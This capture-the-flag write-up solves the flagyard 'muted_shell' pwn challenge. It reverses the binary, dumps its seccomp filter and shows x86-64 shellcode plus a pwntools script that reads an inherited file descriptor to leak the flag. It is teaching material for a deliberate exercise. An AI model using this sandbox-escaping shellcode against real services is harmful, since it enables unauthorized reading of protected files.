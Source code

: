 ```yaml
---
title: flagyard - muted_shell (pwn, easy)
date: 2025-08-22
toc: true
---
```


Let's take a look at the binary:

```bash
$ file muted_shell | tr ',' '\n'
muted_shell: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=d3eb2c77f71982b5288585a740784397c71076ae
 for GNU/Linux 3.2.0
 not stripped
 
$ pwn checksec muted_shell
[*] '/home/kali/Desktop/ctfs/flagyard/muted_shell/muted_shell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

$ ./muted_shell
Send your shellcode:
^C
 ```

 So we can see that we are dealing with a PIE enabled 64 bit binary with an executable stack. When we run it, the binary prompts us to send shellcode. Since we don’t have shellcode yet, the next step is reversing the binary.

 ## Reverse Engineering

When we take a look at the main function in Ghidra, we see this:

 ```c
bool main(void)

{
  code *__buf;
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  open("./flag",0);
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf != (code *)0xffffffffffffffff) {
    puts("Send your shellcode:");
    read(0,__buf,0x100);
    install_seccomp();
    (*__buf)();
  }
  else {
    perror("mmap");
  }
  return __buf == (code *)0xffffffffffffffff;
}
 ```

 `main()` function opens the flag file in read mode. Then it allocates memory with mmap() and stores shellcode there. It reads up to 0x100 bytes from stdin into the buffer. Then, seccomp is installed and our shellcode is executed. 

### can u read something without opening it?
 As we know that `main()` func opens flag file in read mode and does not store the file descriptor returned by `open()`. Then how would we read the flag? 
 Hint suggests something about reading something without opening it. So, I researched how `open()` works. The file descriptor is not stored? No worries. Since `stdin = 0`, `stdout = 1`, `stderr = 2` are already taken, the kernel assigns the next free file descriptor, which is 3.
 So, we have to read the flag from the file descriptor 3.

### seccomp - wtf? 
Seccomp (Secure Computing Mode) is a Linux kernel feature that restricts the system calls a process can make. This prevents typical exploits like spawning a shell with `system("/bin/sh")`.

We can use `seccomp-tools` to see which syscalls are allowed by seccomp. If you don't have `seccomp-tools` installed you can do so by running following command:
```bash
$ gem install seccomp-tools
```
Dumping allowed syscalls for our binary:
```bash
$ seccomp-tools dump ./muted_shell
Send your shellcode:

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0003
 0002: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0003: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0005
 0004: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0005: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
```

As we can see that only read, write & exit syscalls are allowed. 

## Crafting the shellcode

Since the file descriptor for the flag is 3, we can read it and write its content to stdout (1):

```asm
/* read(3, rsp, 0x100) */
xor rdi, rdi
mov dil, 3
mov rsi, rsp
mov rdx, 0x100
mov eax, 0
syscall

/* write(1, rsp, rax) */
mov edi, 1
mov rdx, rax
mov eax, 1
syscall

/* exit(0) */
xor edi, edi
mov eax, 60
syscall
```

## Exploit

We can use pwntools to assemble and send our shellcode:

```python3
from pwn import *

context.arch = "amd64"
asm_code = """
    /* read(3, rsp, 0x100) */
    xor rdi, rdi
    mov dil, 3
    mov rsi, rsp
    mov rdx, 0x100
    mov eax, 0
    syscall

    /* write(1, rsp, rax) */
    mov edi, 1
    mov rdx, rax
    mov eax, 1
    syscall

    /* exit(0) */
    xor edi, edi
    mov eax, 60
    syscall
"""

shellcode = asm(asm_code)

p = process("muted_shell")
p.sendline(shellcode)
p.interactive()
```

When we run it:

```bash
$ python3 exploit.py
[!] Could not find executable 'muted_shell' in$PATH, using './muted_shell' instead
[+] Starting local process './muted_shell': pid 1028017
[*] Switching to interactive mode
[*] Process './muted_shell' stopped with exit code 0 (pid 1028017)
Send your shellcode:
FlagY{test_flag}
[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

To exploit a remote instance, replace process("./muted_shell") with:
```python
p = remote("IP_ADDRESS", PORT)
```
